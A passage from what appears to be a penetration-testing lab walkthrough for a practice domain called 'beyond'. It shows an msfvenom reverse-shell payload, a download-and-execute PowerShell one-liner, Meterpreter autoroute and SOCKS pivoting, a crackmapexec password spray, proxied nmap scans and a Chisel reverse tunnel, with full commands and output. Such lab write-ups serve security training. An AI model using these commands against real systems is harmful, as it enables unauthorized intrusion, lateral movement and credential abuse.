First the attacker should create a generic Windows Meterpreter Reverse Shell via `msfvenom`:


```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.45.243 LPORT=443 --platform windows -a x64 -e x64/xor -f exe -o met.exe
```


This should be saved as it will probably be needed again. The listener can then be configured and launched in `msfconsole` with the command:


```bash
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST 192.168.45.243;set LPORT 443;set ExitOnSession false;run -j -q"
```


The attacker can then use their reverse shell session to transfer `met.exe` to `CLIENTWK1` and execute it:

```powershell
iwr -uri http://192.168.45.243/tmp/met.exe -o .\met.exe; .\met.exe
```

Once run on the victim, a Meterpreter [session](../attack-vectors/exploit-frameworks/metasploit/modules/#sessions) is created on the attacker's machine:

```
msf6 exploit(multi/handler) > [*] Meterpreter session 1 opened (192.168.45.243:443 -> 192.168.228.242:63900) at 2024-04-17 18:45:18 -0600

msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                Connection
  --  ----  ----                     -----------                ----------
  1         meterpreter x64/windows  BEYOND\marcus @ CLIENTWK1  192.168.45.243:443 -> 192.168.228.242:63900 (172.16.184.243)
```

#### Autoroute

Now that a session has been created the attacker can use the [`autoroute`](../attack-vectors/exploit-frameworks/metasploit/post-exploitation/pivoting.md#autoroute) module to begin the creation of a SOCKS Proxy. The commands are listed one-per-block for easier copy/pasting:

```
use multi/manage/autoroute
```

```
set session 1
```

* Session ID is based on the ID from the [previous step](pivoting-to-the-internal-network.md#launching-meterpreter) (`1` in this example)

The module is the `run`. All together this looks like:

```shell-session
msf6 exploit(multi/handler) > use multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set session 1
session => 1
msf6 post(multi/manage/autoroute) > run

[*] Running module against CLIENTWK1
[*] Searching for subnets to autoroute.
[+] Route added to subnet 172.16.184.0/255.255.255.0 from host's routing table.
[*] Post module execution completed
```

#### SOCKS Proxy

The SOCKS Proxy is then created with the socks\_proxy module. Again the commands are listed one-per-block for easier copy/pasting:

```
use auxiliary/server/socks_proxy
```

```
set SRVHOST 127.0.0.1
```

```
set VERSION 5
```

```
run -j -q
```

All together it looks like:

```
msf6 post(multi/manage/autoroute) > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
SRVHOST => 127.0.0.1
msf6 auxiliary(server/socks_proxy) > set VERSION 5
VERSION => 5
msf6 auxiliary(server/socks_proxy) > run -j
[*] Auxiliary module running as background job 1.
```

The proxy is created and can be seen listening at `127.0.0.1:1080`:

```shell-session
kali@kali:~/beyond$ netstat -tnpl             
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:1080          0.0.0.0:*               LISTEN      138250/ruby
...
```

### Using the Forward

[Proxychains](../attack-vectors/port-forwarding-and-tunneling/ssh-tunneling/ssh-dynamic-port-forwarding.md#proxychains) will be used to send traffic through the tunnel.

#### Configuring Proxychains

Recall the Proxychains configuration file resides at `/etc/proxychains4.conf`. In order to work for this application the last line of the configuration file must be:

```
socks5  127.0.0.1 1080
```

```shell-session
kali@kali:~/beyond$ tail -n 1 /etc/proxychains4.conf
socks5  127.0.0.1 1080
```

### Credential Spray Via Proxychains

Recall that commands must just be prepended with `proxychains` to send traffic over the proxy. This example will combine `crackmapexec` with `proxychains`. In this instance the `john` credentials are being sprayed:


```bash
proxychains -q crackmapexec smb 172.16.184.240-241 172.16.184.254 -u john -d beyond.com -p "dqsTwTpZPn#nL" --shares
```


<figure><figcaption><p>Command output</p></figcaption></figure>

Unfortunately the output shows that `john` doesn't have actionable or interesting permissions on any of the discovered shares. As previously established via a pre-built BloodHound query and now through the scan, `john` as a normal domain user doesn't have local Administrator privileges on any of the machines in the domain.

The output also states that `MAILSRV1` and `INTERNALSRV1` have `SMB signing` set to `False`. Without this security mechanism enabled, one could potentially perform relay attacks if they can force an authentication request.

### Nmap via Proxychains

Next nmap will be used to scan `MAILSRV1`, `DCSRV1`, and `INTERNALSRV1`. for an open FTP, HTTP, or HTTPS port. Nmap's TCP connect scan (`-sT`) _must be used_ when working with Proxychains. The scan will be started with the command:


```bash
sudo proxychains -q nmap -sT -oN nmap_servers -Pn -p 21,80,443 172.16.184.240 172.16.184.241 172.16.184.254
```


The output reveals INTERNALSRV1 (`172.16.X.241`) is hosting something on HTTP/S at ports 80 and 443:


```
Nmap scan report for 172.16.177.240
Host is up (2.3s latency).

PORT    STATE  SERVICE
21/tcp  closed ftp
80/tcp  closed http
443/tcp closed https

Nmap scan report for 172.16.177.241
Host is up (0.13s latency).

PORT    STATE  SERVICE
21/tcp  closed ftp
80/tcp  open   http
443/tcp open   https

Nmap scan report for 172.16.177.254
Host is up (2.1s latency).

PORT    STATE  SERVICE
21/tcp  closed ftp
80/tcp  open   http
443/tcp closed https
```


Presumably this is some sort of internal web application.

## Examining the Internal Web Application

As discovered a moment ago, INTERNALSRV1 is hosting some sort of internal web application. The attacker will now want to navigate to it via their browser. In order to do this, [Chisel](../attack-vectors/port-forwarding-and-tunneling/tunneling-through-dpi/http-tunneling/chisel.md) will be used at it provides a nice stable browser session.

### Setting Up Chisel

#### Chisel Server

The Chisel server will be hosted on the attacker's Kali machine allowing connections back to the machine. First Windows and Linux binaries must be downloaded from the [releases](https://github.com/jpillora/chisel/releases) page. Note that not all release versions contain Windows binaries. As of writing `1.9.0` contains the most current version of `chisel` for Windows.

The Linux Chisel server is started with the command:

```bash
./chisel server -p 8080 --reverse
```

* `server` puts it in server mode
* `-p 8080` specifies the listening port
* `--reverse` configures it to accept incoming (reverse) connections

#### Chisel Client

Once the Windows binary is downloaded it must be decompressed and renamed:

```shell-session
kali@kali:~/Downloads$ gunzip chisel_1.9.0_windows_amd64.gz

kali@kali:~/Downloads$ ls
chisel_1.9.0_windows_amd64

kali@kali:~/Downloads$ mv ./chisel_1.9.0_windows_amd64 ../beyond/chisel_x64.exe
```

Then the attacker can move into their Meterpreter session and upload the file with the command:

```
upload chisel.exe C:\\Users\\marcus\\chisel.exe
```

```
meterpreter > upload chisel.exe C:\\Users\\marcus\\chisel.exe
[*] Uploading  : /home/kali/beyond/chisel.exe -> C:\Users\marcus\chisel.exe
[*] Uploaded 7.85 MiB of 7.85 MiB (100.0%): /home/kali/beyond/chisel.exe -> C:\Users\marcus\chisel.exe
[*] Completed  : /home/kali/beyond/chisel.exe -> C:\Users\marcus\chisel.exe
```

Then the attacker drops into a `shell` and starts Chisel with the command:

```
chisel.exe client 192.168.45.243:8080 R:80:172.16.177.241:80
```

* `192.168.45.243:8080` is the Chisel server configured in the [last step](pivoting-to-the-internal-network.md#chisel-server)
* `R:80:172.16.177.241:80` establishes a reverse (`R`) port forward from port 80 (first `80`) on the chisel server (attacker's Kali box) to the address `172.16.177.241:80` which is the address of the internal web application

All together:

```
meterpreter > shell
Process 5960 created.
Channel 21 created.
Microsoft Windows [Version 10.0.22000.978]
(c) Microsoft Corporation. All rights reserved.

C:\Users\marcus>chisel.exe client 192.168.45.243:8080 R:80:172.16.177.241:80
chisel.exe client 192.168.45.243:8080 R:80:172.16.177.241:80
2024/04/18 16:32:48 client: Connecting to ws://192.168.45.243:8080
2024/04/18 16:32:49 client: Connected (Latency 62.9649ms)
```

Once this is run the attacker can simply navigate to `http://127.0.0.1` their machine to view the web application on `INTERNALSRV1`:

<figure><figcaption><p>Internal web application</p></figcaption></figure>

### Using Chisel

The attacker can now use the web application through their own browser. The main issue is that any redirects can cause issues. For example consider what happens if the attacker attempts to navigate to the WordPress admin page which is usually located at `/wp-admin` (in this instance the full URL would be `http://127.0.0.1/wordpress/wp-admin`):

<figure><figcaption><p>Admin page fails to load</p></figcaption></figure>

The admin page does not load, but upon examining the error message it seems that the admin page redirected to `internalsrv.beyond.com`. The attacker can assume that the WordPress instance has the DNS name set as this address instead of the IP address. Because the attacker's machine cannot resolve that query it fails to load. A simple path around this issue is to just add `internalsrv1.beyond.com` to the `/etc/hosts` file:


```
...
# FOR USE WITH CHISEL ONLY - REMOVE AFTER USE
127.0.0.1    internalsrv1.beyond.com
```


With these changes it is now possible to navigate to `http://internalsrv1.beyond.com` (which redirects to the home page at `http://internalsrv1.beyond.com/wordpress/`). From here it is possible to navigate to the `/wp-admin` page using the URL below:

```
http://internalsrv1.beyond.com/wordpress/wp-admin
```

The redirects take the attacker to the admin page:

<figure><figcaption><p>The admin portal</p></figcaption></figure>

The attacker can try some login attempts such as known credentials and common passwords, `admin:admin`, `root:root`, that kind of thing. Unfortunately none of these work.

## Summary

The attacker has found a lot of useful information in this section. They enumerated all active sessions and found the domain administrator `beccy` has an active session on `MAILSRV1`. Next, they identified `daniela` as a kerberoastable user due to the `http/internalsrv1.beyond.com` SPN.

They then set up a SOCKS5 proxy with [Metasploit](../attack-vectors/exploit-frameworks/metasploit/post-exploitation/pivoting.md) and used [CrackMapExec](../windows/active-directory/authentication/attacking-ad-authentication/password-attacks.md#crackmapexec) and [Nmap](../networking-tools/nmap/) to perform network enumeration via [Proxychains](../attack-vectors/port-forwarding-and-tunneling/ssh-tunneling/ssh-dynamic-port-forwarding.md#proxychains). The output revealed that `MAILSRV1` and `INTERNALSRV1` each have an accessible web server and SMB signing disabled. Via [Chisel](../attack-vectors/port-forwarding-and-tunneling/tunneling-through-dpi/http-tunneling/chisel.md), they were able to browse to the WordPress instance on `INTERNALSRV1`. However, none of the credentials worked to log in to the WordPress login page.
